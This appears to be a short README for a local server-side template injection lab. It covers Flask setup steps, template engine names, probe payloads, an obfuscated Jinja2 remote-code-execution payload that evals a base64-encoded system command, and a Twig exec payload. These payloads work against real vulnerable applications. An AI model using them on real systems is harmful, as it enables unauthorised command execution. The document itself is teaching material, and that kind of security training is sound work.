 # Requirements:

* apt-get install python
* apt-get install python-pip
* pip install flask
* pip install jinja2

# Steps:
* Download lab file 
* export FLASK_APP=ssti-lab.py
* flask run
* http://127.0.0.1:5000
# Original Blog:
https://portswigger.net/research/server-side-template-injection

# Web Template Engines:

* FreeMarker - Java-based template engine
* Velocity - Java-based template engine
* Smarty - PHP Template engine
* Twig - PHP Template engine
* Jade - Node.js Template engine
* Jinja2 - Python/Flask Template engine

# Basic Payload:

* `{{7*7}}`
* `{{7*'7'}}`

# RCE PAYLOAD - JINJA2:
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

# RCE PAYLOAD - TWIG:
`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

# Automation tool for SSTI exploitation:
[TPLMap](https://github.com/epinna/tplmap)
